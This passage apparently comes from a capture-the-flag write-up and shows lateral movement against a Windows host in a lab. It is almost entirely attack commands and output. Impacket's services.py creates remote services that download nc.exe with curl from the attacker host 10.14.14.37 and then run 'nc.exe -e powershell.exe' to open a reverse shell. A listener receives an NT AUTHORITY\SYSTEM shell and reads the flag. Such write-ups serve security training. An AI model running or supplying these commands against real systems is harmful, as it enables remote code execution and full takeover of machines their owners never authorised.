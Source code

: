 So I create some tasks and get my reverse shell with nc.exe:

```
root@kali:$ proxychains4 -q services.py -dc-ip 192.168.3.203 -k -no-pass 192.168.3.201 create -name upload_nc -display upload_nc -path 'curl http://10.14.14.37/nc.exe -o C:\\Windows\\Tasks\\nc.exe'
[*] Creating service upload_nc

root@kali:$ proxychains4 -q services.py -dc-ip 192.168.3.203 -k -no-pass 192.168.3.201 config -name upload_nc
[*] Querying service config for upload_nc
TYPE              : 16 -  SERVICE_WIN32_OWN_PROCESS
START_TYPE        :  2 -  AUTO START
ERROR_CONTROL     :  0 -  IGNORE
BINARY_PATH_NAME  : curl http://10.14.14.37/nc.exe -o C:\\Windows\\Tasks\\nc.exe
LOAD_ORDER_GROUP  :
TAG               : 0
DISPLAY_NAME      : upload_nc
DEPENDENCIES      : /
SERVICE_START_NAME: LocalSystem

root@kali:$ proxychains4 -q services.py -dc-ip 192.168.3.203 -k -no-pass 192.168.3.201 start -name upload_nc
[*] Starting service upload_nc
[-] SCMR SessionError: code: 0x41d - ERROR_SERVICE_REQUEST_TIMEOUT - The service did not respond to the start or control request in a timely fashion.

root@kali:$ proxychains4 -q services.py -dc-ip 192.168.3.203 -k -no-pass 192.168.3.201 create -name run_nc -display run_nc -path 'C:\\Windows\\Tasks\\nc.exe -e powershell.exe 10.14.14.37 4444'
[*] Creating service run_nc

root@kali:$ proxychains4 -q services.py -dc-ip 192.168.3.203 -k -no-pass 192.168.3.201 config -name run_nc
[*] Querying service config for run_nc
TYPE              : 16 -  SERVICE_WIN32_OWN_PROCESS
START_TYPE        :  2 -  AUTO START
ERROR_CONTROL     :  0 -  IGNORE
BINARY_PATH_NAME  : C:\\Windows\\Tasks\\nc.exe -e powershell.exe 10.14.14.37 4444
LOAD_ORDER_GROUP  :
TAG               : 0
DISPLAY_NAME      : run_nc
DEPENDENCIES      : /
SERVICE_START_NAME: LocalSystem

root@kali:$ proxychains4 -q services.py -dc-ip 192.168.3.203 -k -no-pass 192.168.3.201 start -name run_nc
[*] Starting service run_nc
[-] SCMR SessionError: code: 0x41d - ERROR_SERVICE_REQUEST_TIMEOUT - The service did not respond to the start or control request in a timely fashion.
```

```
root@kali:$ rlwrap nc -lvnp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.13.38.17.
Ncat: Connection from 10.13.38.17:49737.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> gc \users\administrator\desktop\flag.txt
HADES{Sp0ol_SeRv1ce_*********}

PS C:\Windows\system32> whoami
nt authority\system
```